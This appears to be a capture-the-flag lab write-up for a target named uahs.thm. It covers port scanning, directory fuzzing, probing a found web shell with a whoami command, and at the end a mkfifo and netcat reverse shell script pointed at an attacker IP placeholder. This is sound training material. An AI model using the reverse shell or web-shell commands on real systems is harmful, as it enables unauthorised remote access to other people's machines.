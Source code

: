 ```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

### \[-] uahs.thm

Nothing to really look at on this website at first glance, so let's try fuzzing for files and directories using [feroxbuster](https://github.com/epi052/feroxbuster) with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt):

```sh
feroxbuster -u http://uahs.thm -w /usr/share/SecLists/Discovery/Web-Content/raft-large-files.txt -x json,txt,js,xml -s 200,301,302,403 -o p-80-www-ferox.txt
```

![d2637906be3b2f75625a1b782a88bdac.png](/resources/75f84624f0234b66882d47ae169b6c12.png)

In the above screenshot, we find a suspicious PHP page which shows as `0l`, `0w`. `0c` which means the blank is completely blank. So, what does it actually do?

### \[-] uahs.thm/assets/index.php

Let's do some enumeration and see if this is a web shell of some sort by appending `?cmd=whoami` to the end of the URL and send the request using [curl](https://linux.die.net/man/1/curl):

```sh
curl -vvv http://uahs.thm/assets/index.php?cmd=whoami
```

![38e851914307bd95c553080dbf86a456.png](/resources/9622483de90e452fa768b1d881422c61.png)

In the response, we get the base64 string "`d3d3LWRhdGEK`". We could use CyberChef here, but it's much easier to pipe (`|`) the output to the `base64` command with the `-d` flag to decode the string:

```sh
curl -vvv http://uahs.thm/assets/index.php?cmd=whoami | base64 -d
```

![ae2e70e78845a0f1cfb28123da2e3a37.png](/resources/7625890b326a49ccaab17460df633008.png)

And, we have found a webshell!

# Initial Foothold

### \[-] www-data\@myheroacademia

To get a reverse shell, we first create a bash script with the reverse shell command and save it as `shell.sh`:

```sh
#!/usr/bin/env bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```
